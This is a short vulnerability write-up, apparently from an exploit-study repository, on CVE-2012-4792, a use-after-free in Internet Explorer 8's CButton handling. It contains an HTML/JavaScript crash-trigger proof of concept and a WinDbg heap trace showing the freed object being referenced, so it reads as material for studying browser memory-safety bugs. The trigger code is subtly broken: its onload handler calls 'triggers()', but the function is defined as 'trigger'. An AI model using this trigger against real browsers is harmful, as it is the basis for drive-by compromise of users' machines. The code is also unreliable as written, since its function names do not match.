 # Internet Explorer 8 CVE-2012-4792 - Use After Free triggered by CButton
Adopted from [Exodus Intel's blog post](http://blog.exodusintel.com/2013/01/02/happy-new-year-analysis-of-cve-2012-4792/)

## Steps
### Trigger
The following code triggers the crash:
```html
<html>
  <head>
    <script>
    function trigger() {
      tForm = document.getElementById("form");
      tDiv = document.getElementById("div");

      tDiv.appendChild(document.createElement('button')); // Add a CButton to the div
      tDiv.firstChild.applyElement(tForm);				  // Set CButton's parent to be the form

      tDiv.innerHTML = "";								  // Removes CButton from the div (form still references CButton)
      tDiv.appendChild(document.createElement('body'));   // Adds body to div
      CollectGarbage();									  // Collecting garbage frees the CButton
    }
    </script>
  </head>
  <body onload="eval(triggers())">
    <div id="div">
    </div>
    <form id="form">
    </form>
  </body>
</html>
```
The crash occurs when when the html body is loaded, `mshtml!CMarkup::OnLoadStatusDone` gets called where it will then attempt to reference the CButton which was previously freed with the `CollectGarbage()`

A heap trace of this crash shows that the object being referenced is indeed a CButton:

```
(a0.3c0): Access violation - code c0000005 (first chance)
First chance exceptions are reported before any exception handling.
This exception may be expected and handled.
eax=05682fa8 ebx=04db8f28 ecx=00000052 edx=00000000 esi=00000000 edi=05682fa8
eip=3d08625c esp=0336d7a0 ebp=0336d80c iopl=0         nv up ei pl nz na po nc
cs=001b  ss=0023  ds=0023  es=0023  fs=003b  gs=0000             efl=00010202
mshtml!CMarkup::OnLoadStatusDone+0x4ef:
3d08625c 8b07            mov     eax,dword ptr [edi]  ds:0023:05682fa8=????????
1:022> !heap -p -a edi
    address 05682fa8 found in
    _DPH_HEAP_ROOT @ 151000
    in free-ed allocation (  DPH_HEAP_BLOCK:         VirtAddr         VirtSize)
                                    5640eb0:          5682000             2000
    7c91a1ba ntdll!RtlFreeHeap+0x000000f9
    3d2b4b10 mshtml!CButton::`vector deleting destructor'+0x0000002f
    3cfa0ad9 mshtml!CBase::SubRelease+0x00000022
    3cf7e76d mshtml!CElement::PrivateRelease+0x00000029
    3cf7a976 mshtml!PlainRelease+0x00000025
    3cf9709c mshtml!PlainTrackerRelease+0x00000014
    3d7b5194 jscript!VAR::Clear+0x0000005c
    3d7b55b9 jscript!GcContext::Reclaim+0x000000ab
```